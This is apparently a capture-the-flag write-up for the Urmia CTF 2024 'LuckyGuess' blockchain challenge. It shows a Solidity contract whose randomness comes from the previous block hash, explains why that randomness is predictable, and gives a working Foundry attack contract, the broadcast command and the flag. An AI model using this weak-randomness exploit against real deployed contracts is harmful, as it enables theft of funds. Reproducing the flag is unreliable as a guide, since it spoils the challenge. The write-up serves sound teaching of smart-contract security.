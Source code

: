 ```yaml
---
title: Urmia CTF 2024 (Blockchain)
layout: post
date: 2024-09-10
permalink: uctf-2024-writeup
category: web3
description: Solution for Urmia CTF LuckyGuess blockchain challenge.
author: Inv1nc
---
```


Hello Friend,  

I recently participated in Urmia CTF 2024, which featured a single blockchain challenge. 

I managed to solve it and thought you’d enjoy reading this writeup.  

Our team, konohagakure (The Hidden Leaf), secured 38th place in the event.  

## Lucky Guess [First Blood 🩸]

**Contract Details**

```
RPC URL: https://rpc2.sepolia.org/

Blockchain: Sepolia testnet

Contract Address: 0xb62d3f4abF158d6042c58647294dDC037B3d8809
```

**LuckyGuess.sol**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract LuckyGuess {
    mapping(address => bool) public winCount;
    uint256 public MULTIPLIER = 117067084070050048050052066108111099107099104097105110;

    function guess(uint256 _prediction) public returns (bool) {
        uint256 blockHash = uint256(blockhash(block.number - 1));
        uint256 randomValue = blockHash / MULTIPLIER; // very random number

        if (randomValue == _prediction) {
            winCount[tx.origin] = true; // make it true to solve challenge
            return true;
        } else {
            return false;
        }
    }

    function isSolved(address user) public view returns (bool) {
        return winCount[user];
    }
}
```

**Goal:** Set the `winCount` of our address to true.

**Attack:**

1. To solve this challenge we need to provide a correct `prediction` to `guess` function.
2. The contract is generating random number using global variables like `block.number` & `blockhash`
3. Since these values are publicly known, the randomness is weak.
4. We can exploit this by creating a contract that replicates the same logic as `LuckyGuess`.


**Attack.s.sol**

```
// SPDX-License-Identifier: MIT

import {LuckyGuess} from "../src/LuckyGuess.sol";
import {Script, console} from "forge-std/Script.sol";

contract LuckyGuessSolve is Script {
    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Pwn();
        vm.stopBroadcast();
    }
}

contract Pwn {
    LuckyGuess lucky = LuckyGuess(0xb62d3f4abF158d6042c58647294dDC037B3d8809);
    uint256 MULTIPLIER = 117067084070050048050052066108111099107099104097105110;

    constructor() {
        uint256 blockHash = uint256(blockhash(block.number - 1));
        uint256 randomValue = blockHash / MULTIPLIER;
        bool success = lucky.guess(randomValue);
        console.log(success);
        console.log("Solve Status", lucky.isSolved(msg.sender));
    }
}
```


```
forge script script/Attack.s.sol:LuckyGuessSolve --rpc-url $RPC_URL --broadcast
```

**Flag**: UCTF{N0tH1ng_i5_R4ndom_1n_BLockCh41n}

---

Thanks for reading!
